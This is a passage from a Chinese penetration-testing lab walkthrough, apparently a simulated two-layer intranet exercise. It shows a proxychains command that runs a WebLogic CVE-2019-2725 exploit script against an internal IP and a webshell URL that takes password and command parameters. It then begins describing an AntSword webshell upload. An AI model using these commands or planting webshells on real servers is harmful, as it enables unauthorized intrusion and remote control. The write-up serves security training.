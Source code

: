 ##### 7.2.2 上传webshell小马

```
proxychains python3 weblogic-CVE-2019\-2725.py 10.3.6 http://172.22.0.20:7001/

```

webshell地址：http://172.22.0.20:7001/bea\_wls\_internal/demo.jsp?pwd=admin&cmd=ifconfig

![29.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=f9a91ca1-0c16-4617-a1b3-7f5d8f0a8ab5.png)

![30.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=7a0c122d-5421-4375-bbf0-fe4b583c0c5b.png)

#### 7.3 蚁剑`Webshell`上传

由于上一步中通过利用`Weblogic`的远程命令执行漏洞上传的`Webshell`只能进行命令的执行，而无法通过中国蚁剑等`Webshell`管理工具做更多的操作，因此，我们需要上传一个蚁剑`Webshell`
